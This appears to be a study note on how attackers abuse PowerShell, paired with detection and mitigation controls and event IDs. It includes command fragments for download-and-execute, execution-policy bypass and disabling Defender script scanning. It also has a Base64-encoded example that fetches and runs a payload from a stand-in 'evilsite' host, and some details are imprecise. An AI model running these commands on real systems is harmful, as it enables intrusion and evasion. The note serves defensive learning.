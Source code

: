 **PowerShell** is a powerful Windows command-line and scripting language often abused by attackers to execute malicious payloads, maintain persistence, or evade detection — all without needing to write files to disk.

---

## 🎯 Why Attackers Use PowerShell

- Pre-installed on all modern Windows systems
- Executes commands and scripts directly in memory (fileless attacks)
- Easily obfuscated to evade detection
- Integrated with .NET, allowing rich functionality
- Trusted binary (signed by Microsoft)

---

## 🧰 Common PowerShell Attack Techniques

| Technique                   | Description                                                      | Example                                                  |
|-----------------------------|------------------------------------------------------------------|----------------------------------------------------------|
| **Encoded Commands**        | Base64-encoded payloads                                          | `powershell -enc <Base64>`                              |
| **Download & Execute**      | Pulls payloads from remote servers                              | `IEX (New-Object Net.WebClient).DownloadString(...)`     |
| **Script Obfuscation**      | Alters script structure or variable names                       | Used in `Invoke-Obfuscation`, manually or via frameworks |
| **Bypassing Execution Policy** | Overrides PowerShell restrictions                             | `-ExecutionPolicy Bypass`                               |
| **AMSI Bypass**             | Evades Windows script scanning engine                           | `Set-MpPreference -DisableScriptScanning $true`         |
| **Memory Injection**        | Injects shellcode or binaries into memory                       | PowerShell Empire, `Invoke-Shellcode`                   |
| **Credential Dumping**      | Extracts cached credentials or hashes                           | `Invoke-Mimikatz`                                        |
| **Lateral Movement**        | Executes remote commands on other systems                       | `Invoke-Command`, `PsExec`, WinRM                       |

---

## 🧱 Detection and Mitigation Controls

| Control Type     | Examples & Implementation                                |
|------------------|-----------------------------------------------------------|
| **Preventive**   | Constrained language mode, restrict execution policies    |
| **Detective**    | PowerShell logging (Module, ScriptBlock, Transcription)   |
| **Corrective**   | EDR auto-response, account lockout, reimage infected host |
| **Technical**    | Sysmon logging + SIEM alerting on PowerShell anomalies    |
| **Operational**  | Admin account auditing, least privilege enforcement       |
| **Managerial**   | Secure coding policies, tool usage training               |

---

## 🔬 Obfuscated Payload Example

```powershell
powershell -exec bypass -enc aQBmACgAKABnAGUAdAAtAGMAbwBuAHQAZQBuAHQALQBuAG8AdAAtAGUAbQBwAHQAeQAgAGgAdAB0AHAAOgAvAC8AZQB2AGkAbABzAGkAdABlAC8AcA
BhAHkAbABvAGEAZAAuAGUAeABlACkAKQB7AHMAdABhAHIAdAAgAHAAYQB5AGwAbwBhAGQALgBlAHgAZQB9AA==
```

This payload is Base64 encoded. Logging tools like Sysmon + PowerShell auditing can capture and decode it.

## ⚔️ Red vs Blue Team Insight

- **Red Team**: Uses frameworks like Empire, Nishang, PowerSploit, and `Invoke-Obfuscation`.
- **Blue Team**: Monitors for abnormal command-line usage, encoded strings, and script blocks.

---

## 🛠 Tools for Defense

- **Sysmon** – Track PowerShell parent-child process creation
- **Defender for Endpoint / ATP** – Detect AMSI bypass, encoded payloads
- **Splunk / ELK / Sentinel** – Analyze logs for behavior patterns
- **AppLocker / WDAC** – Whitelist/blacklist PowerShell scripts

---

## 📋 Key Event IDs to Monitor

|Event ID|Description|
|---|---|
|**4104**|PowerShell ScriptBlock logging|
|**4688**|Process creation (cmd, powershell.exe)|
|**7036**|Service state changes (may hide PowerShell)|

---

## 🗂 Related Topics

- [[Defense Evasion Techniques]]
- [[Living off the Land Techniques]]
- [[Endpoint Detection & Response (EDR)]]
- [[SIEM & Log Analysis]]
- [[Windows Event IDs]]
- [[Obfuscation]]

---

## 🏷 Tags

#powershell #lolbins #fileless_malware #obfuscation #attack_techniques #defense_evasion #redteam #blueteam #edr #scripting #windows